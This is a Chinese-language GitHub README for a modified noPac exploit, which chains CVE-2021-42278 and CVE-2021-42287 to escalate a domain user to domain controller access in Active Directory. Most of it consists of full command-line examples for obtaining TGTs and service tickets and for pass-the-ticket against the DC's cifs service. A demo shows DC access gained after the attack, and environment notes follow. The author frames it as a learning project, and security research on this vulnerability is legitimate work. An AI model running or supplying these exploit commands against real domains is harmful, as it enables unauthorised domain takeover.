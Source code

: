 # noPac

这个项目的由来是出于对 noPac 的原理学习, 在 [cube0x0](https://github.com/cube0x0/noPac) 的项目基础上进行了一些更改. 源码中添加了个人的理解注释.

- 删除了 Scan 功能, 个人觉得 Scan 功能用处比较鸡肋.
- 增加了 MachineAccountQuota 值的判断, 如果为 0 则退出程序.
- 优化了添加计算机帐户时的判断处理.
- 增加了 TGT 的输出.

漏洞的分析文章可以查看我的博客文章: [noPac 分析](https://trya9ain.github.io/nopac-%E5%88%86%E6%9E%90/)

## 利用条件

noPac 是 CVE-2021-42278 (sAMAccountName spoofing) & CVE-2021-42287 (deceiving the KDC) 两个漏洞的组合利用, 只有同时满足这两个漏洞的利用条件才能成功利用.

## 使用方法

```
Examples: Get TGT and ST

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword /service altservice

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs

Examples: PTT

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword /service altservice /ptt

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

比较常用的方法是 PTT:

```PowerShell
noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

## Demo

利用 noPac 前无权访问 DC.

![](Images/Pasted%20image%2020221222145605.png)

利用 noPac.

```PowerShell
noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

![](Images/Pasted%20image%2020221222145709.png)

PTT 后在当前窗口再次访问 DC 即可成功访问.

![](Images/Pasted%20image%2020221222145734.png)

## 利用环境

注意程序只能运行在 .NET 4.0+ 环境的机器上, Windows Server 2012 默认带 .NET 4.0, Windows Server 2008 默认带 .NET 3.5.

查看机器上存在的 .NET 版本:

```PowerShell
dir c:\Windows\Microsoft.NET\Framework64
```

![](Images/Pasted%20image%2020221222151109.png)
